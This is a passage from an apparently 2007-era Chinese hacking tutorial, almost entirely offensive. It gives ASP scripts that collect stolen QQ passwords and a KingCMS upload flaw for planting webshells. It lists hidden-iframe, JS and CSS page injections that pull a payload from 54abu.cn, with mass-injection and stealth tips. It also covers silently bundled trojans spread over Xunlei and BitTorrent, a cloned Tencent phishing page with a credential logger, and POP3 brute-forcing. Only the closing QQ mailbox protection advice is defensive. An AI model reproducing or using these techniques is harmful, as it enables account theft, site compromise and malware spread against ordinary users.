QQclub=request("QQclub")
QQip=request("QQip")

if QQNumber="" or QQPassWord="" then
  response.write "QQ"
  response.end
End If

StrLogText=StrLogText&QQNumber&"-----"&QQPassWord&"-----会员:"&QQclub&"-----IP:"&QQip&"("&request.servervariables("REMOTE_HOST")
StrLogText=StrLogText&")-----"&date&" "&time

set f=Server.CreateObject("scripting.filesystemobject")
set ff=f.opentextfile(server.mappath(".")&"\\"&strLogFile,8,true,0)
ff.writeline(chr(13)+chr(10)&StrLogText)
ff.close
set ff=nothing
set f=nothing

response.write "发送成功!"
%>
```

阿意木QQ终结者在网站下默认上传 `qq2007.asp`，用于接收密码信并存到同路径的 `qq2007.txt` 中（图2）。

VVQQ大盗在网站默认上传 `vv.asp`，但是它用于接收密码信的文件是动态生成的。不过还有一部分特征，那就是“QQPass.txt”（图3）。

```asp
<%
strLogFile="QQ2007.txt"
QQNumber=request("QQNumber")
QQPassWord=request("QQPassWord")
QQclub=request("QQclub")
QQip=request("QQip")

if QQNumber="" or QQPassWord="" then
  response.write "PZQQ"
  response.end
End If

StrLogText=StrLogText&QQNumber&"-----"&QQPassWord&"-----会员:"&QQclub&"-----IP:"&QQip&"("&request.servervariables("REMOTE_HOST")
StrLogText=StrLogText&")-----"&date&" "&time

set f=Server.CreateObject("scripting.filesystemobject")
set ff=f.opentextfile(server.mappath(".")&"\\"&strLogFile,8,true,0)
ff.writeline(chr(13)+chr(10)&StrLogText)
ff.close
set ff=nothing
set f=nothing

response.write "发送成功!"
%>
```

```asp
<%
StrLogFile=date & "-QQPASS.txt"
StrLogPFile=date & "-QQ.txt"

QQNumber=request("n")
QQPassWord=request("p")
sQQG=request("g")
qb=request("qb")
sbh=request("bh")
QQIP=request("i")

StrLogText=QQNumber&"-----"&QQPassWord&"-----IP:"&QQIP

set f=Server.CreateObject("Scripting.FileSystemObject")
If f.FileExists(Server.MapPath(".") & "\\" & StrLogFile) = True Then
  Set ff = f.OpenTextFile(Server.MapPath(".") & "\\" & StrLogFile, 8, False, 0)
Else
  Set ff = f.CreateTextFile(Server.MapPath(".") & "\\" & StrLogFile, true)
End If
ff.writeline(StrLogText)
ff.close
set ff=nothing
%>
```

打开挖掘鸡V1.1（个人感觉1.1版本速度比较快，比较好用），在URL后缀选项中添加用于接收密码信的地址，大家还可以根据不同的盗Q工具自己进行添加哦（图4）。

## 第六章 QQ黑客研究院


在“关键词”栏添加用于在搜索引擎中进行搜索的关键词。例如“inurl:qq.txt”就可以找到URL中有qq.txt的链接，从而找到接收密码信的地址。超时和线程数保持默认就可以，点击“开始”按钮就可以开始搜索了。在扫描的过程中，还可以监视扫描的进程，从这里可以看到当前正在扫描的进程列表（图5）。

坐下来，泡杯茶，找个MM聊上一会儿再回来看看扫描结果（图6）。看，才扫描了几分钟就获得了这么多QQ链接，只需要双击一个URL链接就可以打开这个URL了（图7），有不少的QQ密码吧。

现在知道为什么让你在配置盗QQ木马的时候把默认接收密码信的地址更改了吧？就是要避免搜索引擎的骚扰，防止得来不易的QQ信封被这样盗取。


## 利用 KingCMS 漏洞快速写 Webshell

KingCMS 是一款网上比较流行的 ASP CMS 程序，程序自带的 FCK 编辑器上传过滤不严而产生了上传漏洞，可以直接拿到 Webshell。是不是又感觉回到了当时 Dvbbs6 出上传漏洞的时候呢？那个时候只要随便挑个 Dvbbs6 就能够拿到 Webshell，那个舒坦啊，整天拿着 Webshell 玩。这次 KingCMS 出的漏洞也类似，不过还是有点限制的，只要默认的管理目录 admin 没有改，就能够上传 Webshell。


首先需要找到没有更改默认管理目录 admin 的 KingCMS 站点。通常我们会使用程序代码的关键字在百度或者 Google 进行搜索，但是个人感觉使用挖掘机更爽、更快、更精准。打开挖掘机，在关键字中输入“Powered By: KingCMS 3.0 Beta”，关键字的选取一般使用程序自带的版权信息。只添加关键字还是不够的，还需要添加自定义页面来检验站点是不是 KingCMS 搭建的。点击“添加后缀”（图1），输入“/admin/webftp.asp”，这个文件是 KingCMS 的 admin 目录中所特有的，而且可以确保对方的默认管理目录 admin 没有改。然后选中刚才添加的后缀，设置好超时时间和线程数，点击开始。

喝杯咖啡或者抽根烟后就可以回来验收成果了，转到挖漏洞的“检测结果”选项（图2）！看来成果还是很丰硕的，随便双击一个 URL 地址，URL 会自动转到后台管理的登录页面。打开站点的首页（图3），现在已经可以确定这个站点是使用 KingCMS 搭建的，你也可以访问一下它的主页看个清楚（查版权信息），而且确认该站点默认的管理目录 admin 没有改。准备工作已经 OK，开始进攻！


打开零号 KingCMS 上传利用工具（图4），在网址框中输入站点的 URL 地址，注意格式：“http://”是不能省略的，最后没有“/”。后台地址处默认就是“admin”，不用修改。如果对一个站点做针对性的入侵，而且恰好又是 KingCMS 搭建的站点，但是后台默认地址更改了，那就需要利用其他方式来获得对方的后台地址了，可以使用百度或 Google 进行查询，也可以利用社会工程学，方法很多就不多做介绍了，完全由你自由发挥。文件名处填写上传后的保存文件名，填入一个 *.asp 就可以了。文件内容当然是 ASP 木马了，建议使用小马，速度快，而且不容易被查杀。最后就是点“上传木马”了。在上传成功后，工具会自动给出提示，而且会把 ASP 木马的 URL 地址告诉你，这下更省事了吧。现在的工具做得越来越人性化了，贴一张小马的图（图5）。

### 网页挂马集合篇

### 1、框架挂马

```html
<iframe src=mm.htm width=0 height=0></iframe>
```

代码使用了 iframe 框架的形式，在插入的地方包含进一个网页。这个方式是最常用的，知道的人也就越多，当然也包括管理员，尽量不要用哦。

### 2、JS 挂马

先保存 `document.write("<iframe width='0' height='0' src='mm.htm'></iframe>");` 为后缀为 JS 的文件（mm.js），然后在需要挂马的地方填写 `<script language=javascript src=mm.js></script>` 就可以了。

其中的 mm.js 可以是相对路径，也可以是绝对路径。JS 文件可以和要挂的文件不在一个站点。我个人比较喜欢这种方式，因为它的灵活性要强得多，如果想更换挂马页面的地址，只需要更改一个 JS 文件即可，不需要更改每个挂马的页面。

### 3、JS 变形加密

此种方法类似于前面的 JS 挂马，不同的是代码是经过变形的。JS 文件可以保存为非 JS 后缀的文件。首先保存 `document.write("<iframe width='0' height='0' src='mm.htm'></iframe>")` 为任意后缀的文件，例如 mm.txt。然后在需要挂马的地方填写 `<SCRIPT language="JScript.Encode" src=http://54abu.cn/mm.txt></script>` 就可以了。

### 4、隐藏挂马

首先将 `top.document.body.innerHTML = top.document.body.innerHTML + '\r\n<iframe width="0" height="0" src='mm.htm'></iframe>'` 保存或者插入一个 JS 文件。这条语句的意思就是把在 HTML 代码后面自动加上“\r\n<iframe width='0' height='0' src='mm.htm'></iframe>”，“\r\n”就是换行回车的意思，当然其中的代码还可以自由变换。然后就像利用普通 JS 脚本一样，在挂马的地方插入 `<script language=javascript src=mm.js></script>` 即可。

### 5、body 挂马

直接在网页代码的 BODY 范围内加入 `<body onload="window.location='http://54abu.cn/mm.htm';"></body>`。onload 其实是一个函数，它的触发时间为加载网页的时候。window.location 也是一个函数，它可以使网页自动跳转。使用此方法挂马的时候，IE 在加载网页的时候就跳转到网马的地址，也就是说一打开就自动跳到网马上，所以隐藏性比较差。

### 6、CSS 中挂马

这种方式类似于 JS 挂马，也是需要保存 `body {background-image: url('javascript:document.write("<script src=mm.js></script>")')}` 为 CSS 后缀的文件，看到其中的 `<script src=mm.js></script>` 很熟悉吧！对，可以和 JS 挂马相结合。当然这个地方也是可以使用框架挂马的代码。那么需要在挂马页面中添加什么代码呢？还是和 JS 挂马类似，只是需要的语句不一样罢了：`<link href="css.css" rel="stylesheet" type="text/css" />`。这种方法可以使 CSS、JS、网马放到三个不同的地方，可以随意更换，所以灵活性更棒。

### 7、Java 挂马

利用 `window.open` 这个方法来打开一个 IE 窗口，可以使用参数来控制这个 IE 窗口的属性（大小、有无工具栏等）。把 `<SCRIPT language=javascript>window.open("http://54abu.cn","","toolbar=no,location=no,directories=no,status=no,menubar=no,scrollbars=no,width=0,height=0");</script>` 加入到需要挂马的地方。“toolbar”代表工具栏，“location”代表地址栏，“directories”代表导航条，“status”为状态栏，“menubar”为菜单栏，“scrollbars”为滚动条，“width,height”分别表示窗口的宽和高。大家可以根据参数自由控制。

### 8、图片挂马

看到这个标题是不是感觉很不可思议呢？没错，就是利用图片的迷惑性来挂马。首先要准备网马一只、图片一张，这两个地址是支持相对路径和绝对路径的。打开记事本将以下内容保存为后缀为 jpg 的文件（例如 xxx.jpg）。

```html
<html>
<iframe src="http://54abu.cn/mm.htm" height=0 width=0></iframe>
</center>
</html>
```

网马地址为“http://54abu.cn/mm.htm”，图片地址为“http://54abu.cn/casper/mm.jpg”。大家都知道 JPG 为图片文件，如果这样保存的话，在本机是不能打开这个 JPG 文件的，因为它本身没有图片文件的代码。但是把这个 JPG 文件放在 WEB 空间里就不一样了，因为这个 JPG 在 WEB 访问的时候会按照 HTML 语言解析，也就是说可以造成访问的明明是一个 JPG 文件，但是已经当作一个 HTML 文件解析了。这个你可能会想到论坛的头像吧？想着把这个 JPG 文件当作头像？这个 JPG 的利用只能在 IE 中直接访问时才能够解析，把这个 JPG 当作论坛头像是利用了 IMG 标签，是不能够被 IE 所解析的，否则可就是论坛的末日了。虽然不能使用 IMG 标签，但是可以用 iframe 进行包含，进行挂马的时候直接把这个 JPG 文件包含进去，利用代码为 `<iframe src="http://54abu.cn/casper/xxx.jpg" height=0 width=0></iframe>`。同样也可以使用这个 JPG 文件结合社会工程学来骗人访问，你可以在一个论坛上发帖子：快来看看某某大学生宿舍的蝙蝠样哦，地址为 http://54abu.cn/casper/xxx.jpg。大家一看是个 JPG 文件也不会起什么疑心，当他们访问这个文件的时候，真正的网马已经在后台运行了。

### 9、伪装调用

首先将以下代码保存或者替换需要挂马站的一个 HTM 页面，例如保存在 index.htm，替换挂马站的首页。

```html
<frameset rows="444,0" cols="*">
  <frame src="http://54abu.cn/" frameborder="no" scrolling="auto" noresize marginwidth="0" marginheight="0" />
  <frame src="http://54abu.cn/mm.htm" frameborder="no" scrolling="no" noresize marginwidth="0" marginheight="0" />
</frameset>
```

正常打开的网页为“http://54abu.cn/”，网马地址为“http://54abu.cn/mm.htm”。同样是利用 HTML 中的框架，当你在访问 index.htm 的时候是感觉不到什么的，和正常情况一样，不过此时已经加载了网马。

### 10、高级欺骗

首先将以下代码保存为一个 HTML 文件或者添加到支持 HTML 语句的位置，此类方法比较适合于钓鱼欺骗。

```html
<a href="http://www.126.com" onMouseOver="go(); return true;">网易3G邮箱免费注册</a>
<SCRIPT Language="JavaScript">
function go()
{
    var url="http://54abu.cn/mm.htm";
    open(url,"NewWindow","toolbar=no,location=no,directories=no,status=no,menubar=no,scrollbars=no,resizable=no,copyhistory=yes,width=0,height=0");
}
</SCRIPT>
```

“http://www.126.com”为迷惑对方 IE 的链接地址，“网易3G邮箱免费注册”为迷惑对方的文字显示地址，“http://54abu.cn/mm.htm”才是真正的网马地址。此代码可以分成两部分，第一部分 `<a href="http://www.126.com" onMouseOver="go(); return true;">网易3G邮箱免费注册</a>` 为 HTML 代码，它的意思是设置一个文字显示“网易3G邮箱免费注册”，链接地址为“http://www.126.com”，当鼠标经过执行 go 函数的超链接。第二部分则是剩下的这个 JavaScript 脚本，它就是执行的 go 函数，它执行后可以弹出地址为“http://54abu.cn/mm.htm”的一个 IE 窗口，其实是利用了 open 函数，还可以根据自己的需要对其参数进行修改。

除了以上的挂马方法外，还有很多挂马技巧，例如在加代码的时候尽量选择正常页面的中间部分，因为中间部分代码较多，管理员不好查找。对于动态页面尽量不要挂 index.asp 等默认页面，因为管理员会查的。那么挂在哪里呢？动态页面一般都跟数据库挂钩，也基本都会有数据库连接文件，或者其他被 index.asp 包含的文件（例如 top.asp 等公用文件）。这个时候我们就可以把代码放到这些被 index.asp 等默认页面包含的文件中，管理员查 index.asp 代码的话也查不到蛛丝马迹。还有就是挂完马后最好把文件的修改时间改回来，防止管理员逐个核对修改时间。方法嘛？可以使用海阳等木马进行修改。

### 我们来批量挂马

一个个网页木马挂上去的话，工作量也挺大的，这时候程序又可以方便我们工作了。给大家介绍两款批量挂马的工具，可以使我们从挂马的繁琐工作中解脱出来。

### 1、ASP 版本

ASP 批量挂马脚本程序使用了 FSO 对象进行写文件（图1），还可以针对某些文件进行挂马，比如针对文件名或者扩展名，达到了高度智能化挂马。


- 最上边划线部分表示的是针对这些字符开头的文件进行挂马操作，字符与字符之间使用“|”进行分隔，比如要针对 admin 和 manage 字符开头的文件进行挂马，改成“admin|manage”即可。此处填写有技巧，找一些大部分程序都会有的字符，例如 conn、admin、index 等等，使你的挂马准确性更高。
- 下边划线部分表示的是针对指定后缀文件进行挂马，同样字符与字符之间使用“|”进行分隔，比如要针对 asp 和 htm 为后缀的文件进行挂马，改成“asp|htm”即可。
- 绿色划线部分表示的是你挂马的代码，这里是关键，我这里使用了 JS 方式，大家可以自由发挥。


直接使用刚才通过 KingCMS 漏洞获得的小马写入批量挂马的文件。还要得到挂马目录的绝对路径，这可以在刚才的小马中查到。在 IE 中执行文件，输入绝对路径，点一个“GoGo”就开始了。系统会自动执行挂马操作，并且显示详细的进程记录（图2）。还可以单独审查，点击任意一个链接即可进入此文件的编辑界面，可以查看或更改代码，记得改完后要保存一下！

### 2、PHP 版本

PHP 脚本中使用了 fwrite 方法进行文件的写操作。这个版本能够在 IE 中设置挂马目录及待挂马代码，很是方便，而且支持子文件夹。

```php
if(@ereg("index\.|default\.|main\.", $file))
```

代码中需要修改的地方只有一处：聪明的你也许已经看出点什么了，不错！这个地方就可以设置针对哪些文件名进行挂马，如果你想挂 manage*.* 的话，格式为 `if(@ereg("manage\.",$file))`。修改完成后使用 WEBSHELL 传到服务端，在 IE 中访问（图3）。

填写挂马目录，此目录可以为绝对路径或者相对路径。在挂马代码输入框中输入你的代码，同样我使用的是 JS 方法。点击“提交”就开始执行了（图4）。


> ### 小知识：绝对路径和相对路径
> “绝对路径”就是你的主页上的文件或目录在硬盘上真正的路径。举个例子，“c:\\boot.ini”就是文件 boot.ini 的绝对路径。“相对路径”就是相对于当前目录的路径。例如当前目录是“c:\\”，你要浏览“c:\\windows\\cc.txt”文件的内容，那么只需在命令行里输入“type windows\\cc.txt”就可以了；要是在“c:\\windows\\”下呢，那么就是“type cc.txt”。绝对路径是不变的，而相对路径是随用户工作目录的变化而变化。

### 模板也能挂马

有时候入侵进入了一个网站的后台，但是却没办法获得 Webshell，是不是感觉很郁闷呢？这个时候还能怎么利用呢？不知道？那就让我来告诉你吧。因为现在的网站模板都集成进了数据库，改为了数据库调用，通常在网站后台就可以更改模板代码，所以就可以像直接更改页面文件一样哦！我收集了一些具有代表性的网站后台，为大家介绍一下利用模板进行挂马。

### 一、动易 CMS

进入动易后台，打开“系统配置”中的“网站信息配置”（图1），因为在“版权信息”处是支持 HTML 标记的，只要不使用双引号就好，加入挂马代码 `<iframe src=mm.htm width=0 height=0></iframe>` 即可。


打开“网站风格管理”，这里保存着动易系统的 CSS 风格，选择当前动易模板使用的 CSS 风格，点击“修改风格”（图2）。

在这里添加 `body {background-image: url('javascript:document.write("<script src=mm.js></script>")')}` 的 CSS 挂马代码就可以了。打开“网站通用模板页管理”，在右侧选择当前使用的模板，点击“修改模板”（图3），进入修改页面，找一个合适的地方把网马代码加进去即可。打开“自定义标签管理”（图4），刚才在打开“网站通用模板页管理”里看到有“{$MY_动易2006海蓝首页顶}”，这就是自定义标签。此标签可以在全站任何地方使用，所以改一个地方就可以在很多地方挂马。在右侧根据提示选择一个可以在很多地方挂的标签，点击“修改”，就可以在代码框中添加挂马代码了。

### 二、新云 CMS

进入新云后台，选择“标签管理”，选择一个自定义标签，点击“修改标签”（图5），然后就可以在标签内容中添加挂马代码了。打开“模板管理”页面，选择当前使用的模板（图6）。点击“编辑 CSS 样式”来到 CSS 样式的编辑模式（图7），在其中加入 CSS 挂马代码。点击“编辑模板界面风格”来到模板界面的编辑模式（图8），在其中加入挂马代码即可。

### 三、乔客 CMS

进入乔客后台的“系统管理”页面，选择“核心管理”中的“模板管理”。在文件列表里面选择一个引用多的页面（图9），进入模板编辑模式，找一个合适的地方把网马代码加进去（图10）。

### 四、创力 CMS

进入乔客后台的“模板风格管理”页面，选择“网站模板管理”（图11）。在右边的模板模块中选……


- 后台设置
- 添加频道
- 模板管理
- 模板导出
- 发布管理
- 生成首页
- 会员充值卡管理
- 添加广告
- 文章管理
- 栏目管理
- 批量设置
- 数据库/机器操作
- 文章采集管理
- 友情链接管理
- 文章频道模板管理

```html
<div class="globalBody">
<table border="0" align="center" cellpadding="0" cellspacing="0" class="tableborder">
  <tr>
    <td class="positionL">当前位置</td>
    <td class="positionR"></td>
  </tr>
</table>
</div>
<div class="globalBody">
<table border="0" align="center" cellpadding="0" cellspacing="0" class="tableborders">
  <tr>
    <td valign="top" class="leftBody"><table width="100%" border="0" align="center" cellpadding="0"></td>
  </tr>
  <tr>
    <td class="leftTitle">站内公告</td>
  </tr>
  <tr>
    <td height="102" valign="top" class="leftArea"><marquee onmouseover="this.stop()" onmouseout="..."><ul>{$ReadAnnounceList(0,12,24,1,1,2,1)}</ul></marquee></td>
  </tr>
</table>
</div>
```

- 支持中心
- 留言管理
- 链接管理
- 公告管理
- 调查管理
- 评论管理
- 上传管理
- 网站配置
- 插件管理
- 模板管理
- 管理员管理
- 日志管理
- 数据库备份
- 执行SQL

| 文件路径 | 大小 | 时间 |
|---|---:|---|
| /Joekoe/skin/default/support | 1520 | 2007-8-17 4:03:25 |
| /Joekoe/skin/default/website | 863 | 2007-8-17 4:03:25 |
| /Joekoe/skin/default/ad.ber.banner.html | 38 | 2007-8-17 4:03:22 |
| /Joekoe/skin/default/footer.blank.html | 1483 | 2007-8-17 4:03:22 |
| /Joekoe/skin/default/footer.rss2.html | 425 | 2007-8-17 4:03:22 |
| /Joekoe/skin/default/footer.win.html | 2754 | 2007-8-17 4:03:22 |
| /Joekoe/skin/default/header.blank.html | 182 | 2007-8-17 4:03:22 |
| /Joekoe/skin/default/header.html | 332 | 2007-8-17 4:03:22 |
| /Joekoe/skin/default/header.rss2.html | 7068 | 2007-8-17 4:03:22 |
| /Joekoe/skin/default/header.win.html | 142 | 2007-8-17 4:03:22 |
| /Joekoe/skin/default/index.html | 674 | 2007-8-17 4:03:22 |

选择一个，点击“界面风格”进入编辑模式（图12）。在“界面风格管理”页面的上方点击“CSS风格管理”（图13），可以在这里添加CSS挂马代码。

#### 五、O-Blog

进入O-Blog的后台，在“修改注册条款”“修改友情链接”“修改网站公告”“用户后台通知”模块都是可以挂马的。点击“文本”打开编辑模式（图14），在合适的地方加入挂马代码。

在“模板管理”处也是可以挂马的，点击“管理”页面（图15）。在右侧列表中选择一个模板，点击“修改模板（文本方式）”，然后就可以添加网页代码了（图16）。

#### 六、动网论坛

进入动网论坛的后台，选择“风格界面”模块（图17），点击“修改CSS样式”，然后选择当前使用的CSS样式，再点击“修改样式内容”进入编辑模式，把CSS挂马代码添加进去（图18）。

回到“风格界面”模块处，点击“界面风格”进入模板的编辑模式，找一个隐藏的地方把网马代码添加进去（图19）。不光只有模板可以挂，论坛版面也是可以挂的。选择“版面管理”模块，点击“基本设置”，进入板块设置界面（图20）。

可以在“版面说明”和“版面规则”里面加入挂马代码，这两处如果在前台论坛管理处添加的话会自动过滤掉。

#### 七、BBSXP论坛

进入BBSXP论坛的后台，点击“HTML代码设置”（图21）。“页面顶部信息”“Banner”“版权信息”这三处都是可以挂马的。

#### 八、Discuz论坛

进入Discuz论坛的后台，选择“论坛管理”模块，点击“模板编辑”（图22），选择一个页面点击“编辑”，然后进入编辑模式（图23），把挂马的代码添加进去。

#### 九、PhpWind论坛

进入PhpWind论坛的后台“风格插件”模块，选择“风格模板”（图24）。点击“编辑”来到CSS样式的编辑模式，加入CSS挂马代码（图25）。

通过模板进行挂马的好处就是隐蔽性比较好，如果隐藏得再好点的话，站长会开着FTP，看着一个个没有被改动过的源代码文件而郁闷。

## 迅雷、BT黑版马

雷区（Mine Field）即地雷埋藏的危险地区，引申为危险的应该避免的地区或情形。在网络上的雷区却是人人向往的地方，众多雷友们把自己喜欢的网络资源放在雷区里以供大家分享。当然也就可以把木马发布上去了，而且方法非常的简单，对于刚刚入门而又想抓鸡的朋友非常的适合。前面介绍了不少的盗QQ工具，相信大家已经有了自己的木马。

#### 一、捆绑木马

为什么要捆绑呢？主要是为了增加迷惑性。你想象一下，要是人家直接运行了木马啥反应也没有，反而自动删除了，人家不起疑心才怪呢。现在流行在网络上的捆绑器基本都是被查杀的，如果使用这些捆绑器的话，估计人家还没运行就被咔嚓了。其实可以使用WinRAR来制作自解压文件，再配合RAR的脚本便可以制作出捆绑的效果。

选中木马和傀儡（迷惑人的程序）两个文件，然后点击右键选择“添加到压缩文件”菜单项（图1），在弹出窗口（图2）中把“压缩文件名”填写任何以exe后缀的文件名，例如“hack.exe”。选中压缩选项中的“创建自解压格式压缩文件”。然后点击“高级”选项中的“自解压选项”按钮，弹出“高级自解压选项”窗口（图3），在这里设置自解压后的路径，随意填写一个绝对路径即可，也可以选择“在‘Program Files’中创建”。

再设置安装程序项，在“解压前运行”中填写木马的文件名，在“解压后运行”中填写傀儡的文件名，这样就可以先运行木马然后运行傀儡。点击“模式”选项（图4），在“安静模式”中选择“全部隐藏”项，这样就看不到复制文件等任何提示窗口，让他死也看不到尸首。接着在“覆盖方式”中选择“覆盖所有文件”，主要是为了避免文件被重复运行。点击“文本和图标”选项（图5），从本地硬盘上选择一个迷惑性强的图标文件作为图标。

OK，一个不会被查杀的经过捆绑的木马就诞生了。再准备一个空间，把做好的木马传到空间中。

#### 二、雷区放马

申请一个雷区的ID号，在迅雷中登录账号，然后用迅雷下载传上去的木马，在下载回来后就可以发布资源了。点击“发布”弹出发布资源的对话框（图6）。“资源标题”最好写得诱惑力强一些，例如“最新过WinXpSp2网马生成器”。在“资源描述”里面再写一些诱惑的东西，例如“过全补丁哦……而且还免杀”。现在资源已经提交上去了。下面的活动就是等待了，但是要保证你的空间一直运行，如果空间完蛋就坏了，别人就下载不到资源了。大家可以使用很多个雷区ID进行发布，来增加中马的几率。

#### 三、BT放马

由于BT采用的是开源的授权方式，目前网络上存在大量不同类型的BT客户端软件。BT精神是人人为我，我为人人，是以共享为主的交流平台。我们可以制作BT种子，然后跟其他人分享资源，也就给了我们一个放马的机会。打开BT精灵自带的BT种子制作工具（图7），把刚才捆绑好的木马添加进来，然后再在注释里写上点诱惑人的文字，点击“制作”按钮就可以生成一个BT种子了，点击“发布”把这个种子传播出去（图8），最后就是等待了。

在传播的时候可以放一个比较大、比较新版本的软件，把捆绑好的木马改名成“最新破解补丁”。获得这个文件的人肯定要运行，也就肯定会中马。只要你想得到，他就肯定要中马。

## 大家一起钓到鱼

钓鱼攻击的第一步就是选取鱼饵，因为要钓鱼嘛。鱼饵的选择要有诱惑性，最近QQ宠物又出了猪猪系列，大家都想领取一个可爱的猪猪宠物，腾讯也知道这点，并且做了一些促销的领取活动。有一项“亲亲猪宝贝”的活动，如果亲吻之后，猪宝宝醒过来，那就恭喜你了，你就成功领养了猪猪；如果亲吻之后，猪宝宝翻过身子不理你，你领养失败了，每周只能亲一次。我挑选了好多的页面，最终还是确定了这个页面，因为诱惑性更强，我可以宣称腾讯只要一亲就可以获得，每日只能领养1000个！这样就会显得诱惑力强而且更真实。

打开 `http://pig.pet.qq.com/act/a20070705get/index.htm`，来到活动地址，点击IE中“文件”菜单下的“另存为”将全部网页保存下来（图1），然后把下载回来的“亲亲猪宝贝.htm”改名为“index.htm”，把文件夹“亲亲猪宝贝.files”改名为“images”。改名的目的是为了增强迷惑性，有谁的网页会是中文名字呢？打开index.htm，将里面带有“亲亲猪宝贝.files”的字样改成“images”恢复链接的正常（图2），然后把存在错误的地址改成正确的地址。这里利用页面里登录框是单独一个页面，所以需要单独下载……

```html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0 Transitional//EN">
<link href="images/get1.css" type="text/css" rel="stylesheet">
<script language="javascript" src="images/qngfix.js"></script>
function getCookie(name){ ... }
function setCookie(name,value){ ... }

（图2：index.htm 源码修改示意）
```

```html
.../petpig/act/a20070705get/login_right.jpg
<table width="700" ...>
<iframe src=".../login/login.html" ...></iframe>
<object classid="clsid:d27cdb6e...">
<embed src="http://pic.pet.qq.com/swf/wanwa_pig.swf" ...>

（图3：login.htm 相关代码片段）
```

为了“login.htm”，并且需要将代码更改过来（图3）。打开login.htm，把action的地址改成用于接收QQ密码的接口文件（图4），还有记录下号码框和密码框的名字，因为提交信息的时候需要把它们的名字提交到接口文件，接口文件才能够把信息记录下来。用于接收QQ密码的接口文件是我由盗QQ木马中收信用的接口文件改写……

相信看过前面的QQ木马配置也就对此了解了（图5）。这里接口会保存QQ号码、QQ密码，还有提交的日期。先解释几条语句，`StrLogFile="QQ.txt"` 这句是配置保存QQ密码的文件，一定要更改。`Number=request("u")` 就是接收提交上来的QQ号码信息，“u”是提交上来的QQ号码框的名字，这个值要和登录页面中QQ号码框的名字保持一致，否则收不到信息，密码部分也是一样。`response.redirect "http://54abu.cn/qq/login.htm"` 的意思是在提交保存后将页面返回到登录页面。然后再对代码进行处理，比如去除没用的JS文件，使代码运行更顺畅。反复检查代码正确性后，将文件传到空间。诱饵做完后把诱饵投放到水里，在QQ群或论坛传播页面吸引“鱼儿”，等待上钩后访问保存QQ密码的文件获取结果（图7）。

```asp
<%
strLogFile="QQ.txt"

Number=request("u")
Password=request("p")

StrLogText="QQ号码:"&Number&"   QQ密码:"&Password&"   日期:"&date&" "&time

set f=Server.CreateObject("scripting.filesystemobject")
set ff=f.opentextfile(server.mappath(".")&"\"&strLogFile,8,true,0)
ff.writeline(chr(13)+chr(10)&StrLogText)
ff.close
set f=nothing
set ff=nothing

response.redirect "http://54abu.cn/qq/login.htm"
%>
```

| QQ号码 | QQ密码 | 日期 |
|---|---|---|
| （多条记录） | （对应密码） | 2007-8-19 0:24:27 等 |
| （多条记录） | （对应密码） | 2007-8-19 0:24:49 等 |
| （多条记录） | （对应密码） | 2007-8-19 0:25:16 等 |
| （多条记录） | （对应密码） | 2007-8-19 0:25:29 等 |

### 6.12 破解 QQ 邮箱

现在通过工具直接破解 QQ 密码已经不太现实了，但是还是可以针对 QQ 邮箱进行破解的。因为有相当一部分 QQ 邮箱的密码和 QQ 密码是相同的，所以只需要破解 QQ 邮箱的密码就可以得到 QQ 密码了。打开 Brutus2.0 破解工具（图1），“目标”处填写 QQ 的 POP3 服务器 pop.qq.com，在类型处选择“POP3”。在关联选项中选择 POP3 服务器的端口，保持默认的 110 即可，线程和延迟可以根据自己的网络情况调整。而且还可以针对 QQ 邮件服务器的连接限制使用代理来破解，选中“使用代理”再点击“自定义”就打开了“代理自定义设置”对话框，此处可以添加 SOCKS 代理服务器。在“模式选项”框中把“指定用户”选中，在“UserID”处填写想破解的 QQ 号。在“密码模式”处点击浏览选择暴力破解用的密码字典。设置完毕后，点击“开始”按钮，工具便开始爆破了，如果你的密码字典足够强大，那么那个 QQ 就注定是你的了（图2）。


### 7.1 QQ 邮箱防范

在前面的章节中我们已经提到了利用 QQ 邮箱和 QQ 密码同步来破解 QQ，是不是感觉到自己的 QQ 已经不太保险了呢？是不是有点认为 QQ 邮箱是个“红颜祸水”了呢？其实不然，QQ 已经想到这点了，可以设置 QQ 邮箱独立密码。进入 QQ 邮箱，点击“设置”进入常规页面（图1）。点击“设置独立密码”按钮就可以设置 QQ 邮箱独立密码了，在设置密码的时候有两种保护模式可以选择（图2）。


- 1. 通过 QQ 可以直接处理新邮件，进入邮箱时才需输入独立密码。此模式可以使从 QQ 直接登录只能查看和处理收件箱及个人文件夹中的未读邮件，只有输入独立密码才能切换到完整模式（图3）。


- 2. 始终需要输入独立密码。此模式可以完全阻止从 QQ 直接登录，想登录必须要输入独立密码（图4）。


如果你觉得每次都这么登录很麻烦的话，还可以在“密码安全”设置处（图5），将独立密码保存在本地。这个功能必须在 QQ 2007 beta4 及以后版本上使用。

还有一种绝对防止暴力破解 QQ 邮箱密码的方法，那就是关闭 POP3/SMTP 服务，当然也就不能使用 FoxMail 进行收发邮件了。打开 QQ 邮箱的“设置”选项（图6），把“开启 POP3/SMTP 服务”勾掉就可以把 POP3/SMTP 服务关闭了。

QQ 不光只有上面的保护措施，还可以针对文件夹区域加上密码。“我的文件夹”、“POP 文件夹”以及“我的记事本”三部分组成，也就是说可以使用一个密码锁住这三个部分。点击“我的文件夹”右侧的管理，打开文件夹管理页面（图7），点击下面的“为‘文件夹区域’设置加锁保护”来设置文件夹密码。当你再进入 QQ 邮箱的时候可能就会发现文件夹区域已经加上了一个小锁，当你点击后，就会转到密码验证页面（图8），而且还可以查询得到最近 7 天的历史登录记录（图9）。

QQ 邮箱从推出至今就以“超快运行速度、时时来件提醒、快捷一键登录”而著称，再加上这些防御措施，我想你的 QQ 邮箱一定是“铜墙铁壁”了。


### 7.2 QQ 账号保护

QQ 已经成为人们工作、生活、交流不可或缺的工具，其中很可能存放着用户的大量重要信息，然而黑客等一些不法分子也早已盯上了它，用户的一些重要数据甚至自己的隐私都受到了威胁，那该如何来防止 QQ 被盗呢？

QQ 键盘加密技术的原理如下：用户登录的时候，通过加载 QQ 目录下的 npkcrypt.sys 驱动实现保护的。QQ 木马要实现 QQ 密码的截取，首先要破坏掉这个文件。当 npkcrypt.sys 被破坏的情况下，QQ 登录窗口依然能启动，但在输入的密码框里就会出现一把坏的锁，而且当 npkcrypt.sys 被破坏的时候，QQ 密码框可以用 Ctrl+V 粘贴密码。得出一个通用的方法，在登录 QQ 的时候，不要看键盘锁是否被破坏，而是随意复制一句字符串，然后在密码框按下 Ctrl+V，如果不能粘贴，则没有盗 Q 木马，反之就要注意了。

